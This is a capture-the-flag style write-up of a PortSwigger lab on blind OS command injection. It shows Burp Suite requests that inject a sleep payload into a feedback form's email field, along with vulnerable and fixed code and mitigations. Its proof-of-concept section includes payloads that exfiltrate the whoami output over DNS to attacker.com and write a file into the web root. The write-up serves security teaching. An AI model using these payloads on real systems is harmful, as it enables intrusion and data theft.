

# Lab 02: Blind OS Command Injection with Time Delays

> **Topic**: OS Command Injection
> **Lab Number**: 02
> **Platform**: PortSwigger Web Security Academy

## Category
Blind OS Command Injection — Time-Based Detection via `sleep` and `||` Operator

## Vulnerability Summary
The feedback submission endpoint passes user-supplied form fields to a backend shell command without sanitization. Because the application returns no command output in the response, the injection is blind. By injecting `||sleep+10||` into the `email` parameter, the server-side shell executes `sleep 10`, causing a measurable 10-second delay in the HTTP response. The response time (10,358 ms) confirms command execution even though the response body only contains `"Could not save"`.

## Attack Methodology

### Step 1: Identify the Target Endpoint
Intercepted the feedback form submission in Burp Suite Repeater:

```http
POST /feedback/submit HTTP/2
Host: 0a72009304922248f8038762f00d80077.web-security-academy.net
Cookie: session=6gNCl0DIro3j2h4eslmT8p9dnl5RIExm
Content-Type: application/x-www-form-urlencoded

csrf=SOFjPuzbhLMvFVpDD7SYKRmg5EHEUECf&name=munn1&email=x&subject=pheedback&message=vaah+kya+lab+hai+%21%21
```

All four fields (`name`, `email`, `subject`, `message`) are candidates for injection.

### Step 2: Inject Time-Delay Payload into `email`
Modified the `email` parameter with a `||sleep+10||` payload:

```http
POST /feedback/submit HTTP/2
Host: 0a72009304922248f8038762f00d80077.web-security-academy.net
Cookie: session=6gNCl0DIro3j2h4eslmT8p9dnl5RIExm
Content-Type: application/x-www-form-urlencoded

csrf=SOFjPuzbhLMvFVpDD7SYKRmg5EHEUECf&name=munn1&email=x||sleep+10||&subject=pheedback&message=vaah+kya+lab+hai+%21%21
```

The `||` operator means: run the right-hand command regardless of whether the left-hand command succeeds or fails. The backend effectively executes something like:

```bash
mail -s "pheedback" x||sleep 10||
```

Which the shell interprets as:
```bash
mail -s "pheedback" x   # fails (invalid address)
|| sleep 10             # runs because previous command failed
||                      # trailing || is a no-op
```

### Step 3: Confirm via Response Time
The server returned:

```http
HTTP/2 500 Internal Server Error
Content-Type: application/json; charset=utf-8

"Could not save"
```

Response time: **10,358 milliseconds** — a ~10 second delay confirming `sleep 10` executed server-side.

Without injection, the response returns in under 1 second. The 10x delay is unambiguous proof of blind command execution.



## Technical Root Cause

### Vulnerable Code (Pseudocode)
```python
import subprocess

def submit_feedback(request):
    email = request.POST.get('email')
    subject = request.POST.get('subject')
    message = request.POST.get('message')
    # VULNERABLE: user input interpolated into shell string
    subprocess.run(
        f'mail -s "{subject}" {email} <<< "{message}"',
        shell=True
    )
    return JsonResponse({'status': 'saved'})
```

With `email=x||sleep+10||`, the shell receives:
```bash
mail -s "pheedback" x||sleep 10||
```

### Secure Code (Pseudocode)
```python
import subprocess, re

def submit_feedback(request):
    email = request.POST.get('email', '')
    subject = request.POST.get('subject', '')
    message = request.POST.get('message', '')

    # Validate email format strictly
    if not re.fullmatch(r'[a-zA-Z0-9._%+\-]+@[a-zA-Z0-9.\-]+\.[a-zA-Z]{2,}', email):
        return HttpResponseBadRequest('Invalid email')

    # Pass as list — no shell, no metacharacter interpretation
    subprocess.run(
        ['mail', '-s', subject, email],
        input=message.encode(),
        check=True
    )
    return JsonResponse({'status': 'saved'})
```

## Impact
- **Blind Arbitrary Command Execution**: Any OS command can be run server-side with no output required — time delays, DNS lookups, or out-of-band channels confirm execution
- **No Output Needed**: The attacker doesn't need to see results; time-based or OOB techniques are sufficient for full exploitation
- **Escalation Path**: From time-delay confirmation → exfiltrate data via DNS/HTTP → write files → reverse shell

**Severity: Critical**

## Proof of Concept

**Confirm injection via time delay:**
```http
POST /feedback/submit HTTP/2
Content-Type: application/x-www-form-urlencoded

csrf=...&name=x&email=x||sleep+10||&subject=x&message=x
```

**Expected result:** Response delayed by ~10 seconds, confirming `sleep 10` executed.

**Further exploitation (data exfiltration via DNS):**
```
email=x||nslookup+`whoami`.attacker.com||
```

**Write a file:**
```
email=x||whoami>/var/www/html/proof.txt||
```

## Key Takeaways
1. **Blind Injection Is Still Full Injection**: No output in the response doesn't mean no vulnerability. Time delays, DNS callbacks, and file writes all confirm and exploit blind OS command injection without needing visible output.
2. **`||` Is More Reliable Than `;` for Blind Testing**: `;` runs the next command unconditionally but requires the first command to not consume the rest of the line. `||` runs the injected command when the original fails — which is common when injecting into fields like `email` that fail validation at the OS level.
3. **Response Time Is Observable Evidence**: A consistent ~10 second delay across multiple requests is statistically unambiguous. Vary the sleep value (5, 10, 15) to rule out network jitter.
4. **All Form Fields Are Attack Surface**: `name`, `email`, `subject`, and `message` were all passed to the shell. Any one of them being injectable is sufficient for full compromise.

## Mitigation

### 1. Avoid Shell Entirely — Use Native Libraries
```python
# Instead of shelling out to `mail`, use Python's smtplib
import smtplib
from email.message import EmailMessage

msg = EmailMessage()
msg['To'] = email        # validated against strict regex first
msg['Subject'] = subject
msg.set_content(message)
smtplib.SMTP('localhost').send_message(msg)
```

### 2. If Shell Is Unavoidable — Use Argument Lists
```python
subprocess.run(['mail', '-s', subject, email], input=message.encode())
# shell=False by default — metacharacters are inert
```

### 3. Strict Input Validation
```python
# Email: RFC 5321 compliant regex or a validation library
# Subject/message: strip or reject shell metacharacters: ; | & ` $ ( ) < > \n
```

### 4. Principle of Least Privilege
The web process should have no access to `mail`, `curl`, `nslookup`, or other network/exec utilities. Use a dedicated mail service with an API instead.

## References
- [PortSwigger — Blind OS Command Injection with Time Delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)
- [PortSwigger — Blind OS Command Injection](https://portswigger.net/web-security/os-command-injection#blind-os-command-injection-vulnerabilities)
- [OWASP — OS Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [CWE-78: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-05-09*  
*Writeup by vibhxr*
